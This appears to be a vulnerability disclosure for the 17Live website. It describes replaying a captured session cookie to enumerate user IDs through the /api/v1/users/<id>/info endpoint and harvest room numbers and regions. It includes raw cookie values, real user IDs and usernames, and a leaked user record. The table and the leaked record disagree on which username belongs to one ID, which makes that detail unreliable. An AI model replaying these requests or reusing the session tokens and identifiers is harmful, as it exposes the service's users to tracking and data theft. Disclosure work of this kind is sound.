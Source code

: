 # About 17Live Website Information Disclosure Security Vulnerability Description

## 1 Security vulnerability implementation steps 
### 1.1 Get Header request data
Intercept browser Cookie information after logging in by a valid user.
```
Cookie: __stripe_mid=23f6c489-683b-4271-93f2-01b901c117e3232316; csrftoken=d6YCcSd9CRQ2iSWhBgvtp7Vgo0wXcUUIHRwmrpB23VpsuI8xyQYfYNGHOIiPgwBJ
```

### 1.2 Add cookie to the replay attack HTTP Request Header

## 2 Disclosure of user information by replay attack

> Leaked information includes: room number, location.

> Request method: GET, information can be obtained by traversing the constructed user ID, such as "be3cfbb8-b44c-437a-9ab9-bb8b43d057cc", "53d46477-67b1-45ea-b25a-55ab288a62bc"...

API URL\application unit and request parameters of verified project information leakage are shown in the following table:

| authenticated user | API URL | Request params|
|---|---|---|
|bahamutee|https://wap-api.17app.co/api/v1/users/be3cfbb8-b44c-437a-9ab9-bb8b43d057cc/info|be3cfbb8-b44c-437a-9ab9-bb8b43d057cc|
|shion.yg|https://wap-api.17app.co/api/v1/users/53d46477-67b1-45ea-b25a-55ab288a62bc/info|53d46477-67b1-45ea-b25a-55ab288a62bc|


### Leaked packet cases 
``` {
"userID": "be3cfbb8-b44c-437a-9ab9-bb8b43d057cc",
"openID": "shion.yg",
"displayName": "shion.yg",
"name": "",
"bio": "",
"picture": "",
"followerCount": 0,
"followingCount": 0,
"receivedLikeCount": 0,
"isFollowing": 0,
"isNotif": 0,
"isBlocked": 0,
"followRequestTime": 0,
"roomID": ****2248,
"privacyMode": "open",
"level": 1,
"followPrivacyMode": 0,
"badgeInfo": [
{
"badgeID": "obs",
"badgeName": {
"key": "badge_support_obs_account"
},
"description": {
"key": "badge_support_obs_account"
},
"iconURL": "http://cdn.17app.co/b509416d-c234-4f03-a4a7-f13c24939aef.png",
"grayoutIconURL": "",
"isInternal": 2,
"type": 0,
"using": 0,
"currProgress": 0,
"isNew": false,
"receivingTimestamp": 0,
"endTime": 0,
"backgroundType": 0
}
],
"region": "**",
"enableShop": 0,
"lastLiveTimestamp": 0,
"lastLiveRegion": "",
"gloryroadMode": 0,
"lastUsedHashtags": [],
"risingInfo": {
"risingStarEnable": false,
"level": 0,
"levelUpReminder": false
},
"levelBadges": [],
"energyRank": 0,
"incentiveInfo": {
"featureEnabled": false
},
"commentShadowColor": "",
"isFreePrivateMsgEnabled": false
}
```